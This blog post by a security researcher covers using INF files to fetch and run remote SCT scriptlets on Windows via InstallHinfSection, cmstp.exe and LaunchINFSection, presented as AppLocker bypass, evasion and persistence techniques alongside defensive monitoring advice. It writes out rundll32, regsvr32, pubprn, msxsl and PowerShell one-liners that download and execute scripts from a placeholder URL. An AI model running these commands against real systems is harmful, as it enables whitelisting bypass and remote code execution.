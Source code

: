 # Leveraging INF-SCT Fetch & Execute Techniques For Bypass Applocker, Evasion, & Persistence

### Introduction

Over the last few weeks, I researched and tested a few interesting namespaces/methods documented on various Microsoft/MSDN sources that dealt with executing various COM scripts/scriptlets (e.g. VBscript, Jscript, etc.).  In particular, I was curious to see if there were potentially new ways to invoke remote scripts (ActiveX Objects) by leveraging some of the great research already performed and documented by [@subTee](https://twitter.com/subTee), [@Oddvarmoe](https://twitter.com/Oddvarmoe), [@ItsReallyNick](https://twitter.com/ItsReallyNick), [@KyleHanslovan](https://twitter.com/KyleHanslovan), [@ChrisBisnett](https://twitter.com/chrisbisnett), and [@NickTyrer](https://twitter.com/NickTyrer).  There were some interesting findings, but the one that really stood out was the discovery of **LaunchINFSection**, a ‘new’ method to remotely launch staged SCT files configured within INF files.

In this post, we’ll discuss several known INF-SCT launch methods, introduce LaunchINFSection, and dive into use cases/defensive considerations.  Additionally, we’ll reference other techniques for remote script/scriptlet execution.

### INF-SCT Launch Methods

Methods for launching script component files (‘.sct’) via INF configuration files include InstallHinfSection (setupapi.dll), CMSTP, and LaunchINFSection (advpack.dll).  Let’s dive in…

**Malicious INF-SCT Usage with InstallHinfSection**

At [DerbyCon](https://twitter.com/DerbyCon) 2017, @KyleHanslovan and @ChrisBisnett of [@HuntressLabs](https://twitter.com/HuntressLabs) presented a very interesting topic – [Evading AutoRuns](https://github.com/huntresslabs/evading-autoruns/blob/master/Evading\_Autoruns\_Slides.pdf).  In their presentation, they showcase a method for launching remote SCT via INF by invoking  InstallHinfSection with the following command:

```
rundll32.exe setupapi.dll,InstallHinfSection DefaultInstall 128 [path to file.inf]
```

Within the [source](https://raw.githubusercontent.com/huntresslabs/evading-autoruns/master/shady.inf) INF file used for remote SCT execution, ‘rundll32.exe setupapi.dll,InstallHinfSection’ calls the default INF section (‘DefaultInstall’).  Under this section, the Unregister DLLs directive (UnregisterDlls) calls the ‘Squiblydoo’ section to perform the ‘malicious’ action of invoking scrobj.dll to fetch and run the SCT script file.

**Malicious INF-SCT Usage With CMSTP**

About a month ago, @NickTyrer demonstrated on [Twitter](https://twitter.com/NickTyrer/status/958450014111633408) that INF files could be used to fetch SCT files from web resources to execute COM scripts/scriptlets using **cmstp.exe**, a utility that had been documented by @Oddvarmoe to [bypass](https://msitpros.com/?p=3960) UAC and AppLocker default policies.  For reference, basic usage for cmstp.exe is as follows:

```
cmstp.exe /s [file].inf
```

Within the [source](https://twitter.com/NickTyrer/status/958450014111633408) INF file used for remote SCT execution, cmstp.exe calls the INF section named ‘DefaultInstall\_SingleUser’.  Under this section, the OCX unregister directive (UnRegisterOCX) calls the ‘UnRegisterOCXSection’ section to perform the ‘malicious’ action of invoking scrobj.dll to fetch and run the SCT script file.

**Malicious INF/SCT Usage With LaunchINFSection**

According to Microsoft [documentation](https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/gg441316\(v=vs.85\)), LaunchINFSection is a method within the Advanced INF Package Installer (advpack.dll) that is used to invoke a particular section within a setup information (.inf) file.  In the administrative sense, INF files are typically used as an instruction file for the installation of device drivers and/or Windows Cabinet (.cab) files, which may include registering Windows binaries (exe, dll, ocx), adding keys to the registry, and/or specifying critical parameter settings.  The general method for LaunchINFSection invocation is as follows:

```
rundll32.exe advpack.dll,LaunchINFSection [file].inf,[INF Section],[Path to Cab].cab,[Installation Flags]
```

If the \[INF Section] is not specified, LaunchINFSection will attempt to call **DefaultInstall** for the default section.  Additionally, it is worth noting that the Advanced INF Package Installer also contains the function **LaunchINFSectionEx** as well as other character set comparability functions (e.g. LaunchINFSectionA), which effectively do the same thing as LaunchINFSection.

For proof of concept, we can simply [modify](https://gist.githubusercontent.com/bohops/693dd4d5dbfb500f1c3ace02622d5d34/raw/902ed953a9188b27e91c199b465cddf855c7b94f/test.inf) the INF file used by @NickTyrer with a staged SCT script payload found [here](https://gist.githubusercontent.com/bohops/6ded40c4989c673f2e30b9a6c1985019/raw/33dc4cae00a10eb86c02b561b1c832df6de40ef6/test.sct) (big shout out to @subTee and [@redcanaryco](https://twitter.com/redcanaryco) for providing their AtomicRedTeam scripts and many useful test payloads to the community). Let’s download the modified INF to the ‘target’ (test.inf) and invoke LaunchINFSection (using a placeholder value of ‘1’ for our non-existant cab file) with the following command:

```
rundll32.exe advpack.dll,LaunchINFSection test.inf,DefaultInstall_SingleUser,1,
```

As shown in the following screenshot, our INF-SCT-Calc Scriptet payload was successfully launched:

![.gitbook/assets/1664530488_2205.png](https://bohops.files.wordpress.com/2018/02/launchinfsection.png?w=756)

Take note that we can also launch our payload in other, slightly different ways.  If we change the INF file entry point section to ‘DefaultInstall’, we can launch our payload without section specification using the following command:

```
rundll32.exe advpack.dll,LaunchINFSection test.inf,,1,
```

The same payload is successfully launched:

![.gitbook/assets/1664530488_8753.png](https://bohops.files.wordpress.com/2018/02/launchinfsection2.png?w=756)

Additionally, we can change the OCX unregister directive to a register directive (‘RegisterOCXs’) and supply a random name (e.g. ‘MoreFun’) to invoke the same payload:

![.gitbook/assets/1664530489_5275.png](https://bohops.files.wordpress.com/2018/02/launchinfsection3.png?w=756)

### Some Use Cases & Defensive Considerations

In addition to the environmental considerations above, defenders should keep an eye out for these:

**Malware**

In the wild, actors have leveraged malware INF payloads.  @ItsReallyNick discovered several [malware samples](https://twitter.com/ItsReallyNick/status/958789644165894146) that actually took advantage of @NickTyrer’s CMSTP technique a few years ago.  Other samples show malware from the early 2000s that appear to take advantage of more native administrative techniques using LaunchINFSection without INF-SCT execution.

![.gitbook/assets/1664530489_8606.png](https://bohops.files.wordpress.com/2018/02/launchinfsectionmalware.png?w=756)

![.gitbook/assets/1664530490_9412.png](https://bohops.files.wordpress.com/2018/02/launchinfsectionmalware2.png?w=756)

**Bypass, Evasion, & Persistence**

In addition to [bypassing](https://msitpros.com/?p=3960) Operating System security controls such as Application Whitelisting and User Account Control, CMSTP can be used for AutoRuns evasion and persistence.  Here is a screenshot that does not show CMSTP when the ‘Hide Windows Entries’ flag is enabled within AutoRuns:

![.gitbook/assets/1664530490_4973.png](https://bohops.files.wordpress.com/2018/02/cmstp\_autoruns1.png?w=756)

Here is a screenshot with CMSTP present without any filtering:

![.gitbook/assets/1664530490_5726.png](https://bohops.files.wordpress.com/2018/02/cmstp\_autoruns2.png?w=756)

\*Note: LaunchINFSection and InstallHinfSection do not appear to be evasive candidates for (newer) versions of AutoRuns because these methods rely on rundll32.exe to invoke the respective dll.  These methods are not filtered after hiding Windows and Microsoft entries.  However, LaunchINFSection proves to be a valid application whitelisting bypass technique as we were able to “gain code execution” against [default](https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/) AppLocker rules.

**On the Network**

Hopefully, network analysis is still important these days.  Here is a sample GET request invoked by scrobj.dll to fetch a fake SCT file:

![.gitbook/assets/1664530490_2660.png](https://bohops.files.wordpress.com/2018/02/get\_request.png?w=756)

Take note of the User-Agent.  Interestingly enough, I have seen this with other Microsoft utilities that have the ability to perform such requests.  These days, it may be worth treating anything that remote fetches with scrutiny (I know – easier said than done).

**Arbitrary File Names**

**Now for a kicker** – SCT files are merely text/XML files and INF files are text files.  In my basic testing, these files **do not need a proper extension for invocation**.  In this example, we call ‘test.notinf’ and ‘test.notsct’ to successfully execute our ‘sct’ payload:

![.gitbook/assets/1664530491_8364.png](https://bohops.files.wordpress.com/2018/02/notsct1.png?w=756)

**Other Considerations**

\*Host Monitoring is essential.  If budget is a constraint, consider using [Sysmon](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon) (free) to feed your ([open-source](https://wazuh.com/)) SIEM.  Monitor for the introduction of new “.inf” files within the environment and execution of such files with the methods described above.

\*Application Whitelisting is still essential.  Default AppLocker rules are pretty much based on path constraints.  As I previously [blogged](https://bohops.com/2018/01/23/loading-alternate-data-stream-ads-dll-cpl-binaries-to-bypass-applocker/) about, some of these paths do allow users to write to sub-directories in sensitive hierarchical paths.  Ensure these paths are locked down.  This will at least help protect against a subset of execution techniques (and hopefully alert you when an event is triggered).

\*INF execution is not the only way to invoke ‘sct’ scripts.  I will blog about other methods in greater detail down the road (including some ‘new’ techniques), but here is a quick rundown of a few of them:

**RegSvr32/Scrobj.dll** \[[Reference](https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Regsvr32.md)]

```
regsvr32 /s /n /u /i:http://url/file.sct scrobj.dll
```

**PubPrn** \[[Reference](https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/)]

```
pubprn.vbs 127.0.0.1 script:http://url/file.sct
```

**Microsoft.JScript.Eval Assembly via PowerShell** \[[Reference](https://twitter.com/bohops/status/965085651199840258)]

```
[Reflection.Assembly]::LoadWithPartialName('Microsoft.JScript');[Microsoft.JScript.Eval]::JScriptEvaluate('GetObject("script:http://url/file.sct").Exec()',[Microsoft.JScript.Vsa.VsaEngine]::CreateEngine())
```

**Microsoft.VisualBasic.Interaction Assembly via PowerShell** \[[Reference](https://twitter.com/bohops/status/965670898379476993)]

```
[Reflection.Assembly]::LoadWithPartialName('Microsoft.VisualBasic');[Microsoft.VisualBasic.Interaction]::GetObject('script:http://url/file.sct').Exec(0)
```

\*It is also worth noting that ‘sct’ is not the only player in the game.  Here are a few other ‘remote’ XML/XSLT techniques that need to be monitored:

**MsXSL** \[[Reference](https://github.com/3gstudent/Use-msxsl-to-bypass-AppLocker)]

```
msxsl.exe http://url/file.xml http://url/file.xsl
```

**System.Xml.Xsl.XslCompiledTransform Assembly via PowerShell** \[[Reference](https://twitter.com/bohops/status/966172175555284992)]

```
$s=New-Object System.Xml.Xsl.XsltSettings;$r=New-Object System.Xml.XmlUrlResolver;$s.EnableScript=1;$x=New-Object System.Xml.Xsl.XslCompiledTransform;$x.Load('http://url/file.xsl',$s,$r);$x.Transform('http://url/file.xml','z');del z;
```

### Conclusion

Thank you for taking the time to read this blog post.  I will add content as I learn more and/or capture greater insight from the community.  If you have questions/comments/or notice that I left out anything important, send me an email through the \[contact]
